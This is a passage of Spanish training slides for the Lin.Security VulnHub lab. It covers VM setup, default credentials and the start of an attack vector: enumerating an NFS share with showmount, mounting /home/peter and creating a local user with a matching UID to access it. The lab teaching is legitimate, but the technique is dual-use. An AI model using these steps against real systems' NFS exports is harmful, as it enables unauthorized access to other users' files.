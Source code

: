 {{% /section %}}

---

{{% section %}}

## Práctica con Lin.Security

### Configuración Inicial:
1. Descargar [Lin.Security](https://www.vulnhub.com/entry/linsecurity-1,244/)
2. Configurar red en modo bridge
3. Credenciales iniciales: bob/secret

{{% note %}}
Lin.Security es una VM diseñada para practicar:

Preparación:
1. Descarga de la VM
2. Configuración de red
3. Verificación de acceso
4. Familiarización con el entorno

Objetivos:
- Practicar enumeración
- Identificar vectores
- Explotar vulnerabilidades
- Documentar hallazgos
- URL: https://in.security/2018/08/20/lin-security-walkthrough/
{{% /note %}}

---

### Vector 1: Usuario Peter
#### Enumeración inicial desde cero

1. Identificación de recursos NFS:
```bash
showmount -e 192.168.1.137
Export list for 192.168.1.137:
/home/peter *
```

2. Montaje y análisis:
```bash
mkdir /mnt/peter
mount 192.168.1.137:/home/peter /mnt/peter/
ls -la /mnt/peter/
```

3. Creación de usuario local para acceso:
```bash
groupadd -g 1005 peter
adduser peter -uid 1001 -gid 1005
```
